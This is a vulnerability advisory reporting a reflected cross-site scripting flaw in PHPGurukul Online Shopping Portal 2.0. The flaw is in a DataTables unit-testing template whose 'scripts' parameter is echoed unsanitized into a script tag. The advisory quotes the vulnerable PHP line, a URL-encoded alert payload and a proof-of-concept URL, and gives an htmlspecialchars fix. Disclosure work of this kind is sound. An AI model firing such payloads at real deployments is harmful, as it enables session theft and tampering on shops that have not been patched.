 # [XSS vulnerability] found in Online Shopping Portal 2.0 - (empty_table.php)

Affected Project: **Online Shopping Portal**

Platform: Web/Php

Vendor: PHPGurukul

Official Website: (https://phpgurukul.com/shopping-portal-free-download/)

Version: 2.0

Updated: 06 June 2024

Vulnerable path/file: admin/assets/plugins/DataTables/media/unit_testing/templates/empty_table.php

Injection parameter: `scripts`

<br />

Size: 30.5 MB

Sha256: 127e719bf4236a9140f146dd7a6ae54f2a9234b9e6f0aeda240e7a4905c6e73c

<br />

## Vulnerability Description:
The issue arises in the `$aScripts[$i]` variable that can be influenced by user input directly echoing the constructed `<script>` tag into the HTML output, including the user-controlled part within the src attribute without any sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
echo '<script type="text/javascript" language="javascript" src="../'.$aScripts[$i].'?rand='.rand().'"></script>'
```

<br />

## Injection Payload Tested:

We need to set the `scripts` to an encoded url payload to make it work:
```
%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

## Execution:

When the browser parses this, it executes the `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `empty_table.php` looks like:

<br />

![empty_table.php](https://i.postimg.cc/wMCcqwGJ/1.png)

<br />

Then we can add our payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`:

```
http://localhost/shopping/admin/assets/plugins/DataTables/media/unit_testing/templates/empty_table.php?scripts=%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E
```

<br />

After submitting the url with the payload `%22%3E%3C/script%3E%3Cscript%3Ealert('XSS')%3C/script%3E`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/kMzkRqrN/2.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
echo '<script type="text/javascript" language="javascript" src="../' . htmlspecialchars($aScripts[$i], ENT_QUOTES, 'UTF-8') . '?rand=' . rand() . '"></script>';
```

<br />

> One Click Can Change Everything: Be Secure.
